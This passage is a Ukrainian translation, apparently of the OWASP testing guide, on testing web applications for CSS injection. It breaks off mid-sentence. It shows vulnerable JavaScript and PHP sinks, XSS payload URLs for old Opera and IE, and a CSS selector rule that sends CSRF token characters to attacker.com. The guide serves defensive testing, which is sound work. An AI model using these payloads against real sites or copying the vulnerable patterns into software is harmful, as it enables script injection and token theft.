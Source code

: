 # Тестування на ін'єкцію CSS

## Короткий опис

Вразливість внесення CSS коду передбачає можливість внести довільний CSS код в контексті довіреного веб-сайту, який рендериться в браузері жертви. Вплив такого типу вразливості варіюється в залежності від наданого CSS навантаження. Це може призвести до міжсайтового скриптінгу або витікання даних.

Ця вразливість виникає, коли додаток дозволяє користувацькому CSS втручатися у законні стилі додатку. Внесення коду в контекст CSS може дати можливість атакувальнику виконувати JavaScript в певних умовах або видобувати чутливі значення за допомогою CSS селекторів та функцій, які здатні генерувати HTTP запити. Зазвичай надання користувачам можливості налаштовувати сторінки, надаючи власні CSS файли, є значним ризиком.

Наведений нижче код JavaScript показує можливий вразливий скрипт, в якому атакувальник може контролювати location.hash (джерело), яке потрапляє до функції cssText (приймач). В цьому конкретному випадку це може призвести до DOM-базового XSS в старших версіях браузера; для докладнішої інформації дивіться Шпаргалка з профілактики DOM-базового XSS.

<a id="a1">Натисніть мене</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
Атакувальник може націлитися на жертву, запитавши її відвідати наступні URL-адреси:

www.victim.com/#red;-o-link:'<javascript:alert(1)>';-o-link-source:current; (Opera [8,12])
www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)
Така сама вразливість може з'явитися у випадку відображеного XSS, наприклад, у наступному PHP коді:

<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
Додаткові сценарії атак передбачають можливість видобування даних за допомогою чистих CSS правил. Такі атаки можуть бути виконані за допомогою CSS селекторів, що призводить до витікання даних, наприклад, токенів CSRF.

Ось приклад коду, який намагається вибрати введення з іменем, яке відповідає csrf_token і значенням, що починається з a. Використовуючи атаку методом брутфорса для визначення значення атрибута, можна виконати атаку, яка надсилає значення на домен атакувальника, наприклад, спробуючи встановити фонове зображення на вибраному введенні.

<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
Інші атаки, що використовують запитаний контент, такий як CSS, виділені в доповіді Маріо Хайдеріха, "Got Your Nose" на YouTube.

## Цілі тестування

Визначення точок внесення CSS. Оцінка впливу внесення.

## Як тестувати

Код слід аналізувати, щоб визначити, чи користувачу дозволено внесення вмісту в контекст CSS. Зокрема, слід дослідити спосіб, яким веб-сайт повертає правила CSS на основі введених даних.

Наведений нижче приклад є базовим:

<a id="a1">Натисніть мене</a>
<b>Привіт</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
Вище наведений код містить джерело location.hash, яке контролюється атакувальником і може внести зміни безпосередньо в атрибут стилю елементу HTML. Як зазначалося вище, це може призвести до різних результатів в залежності від використовув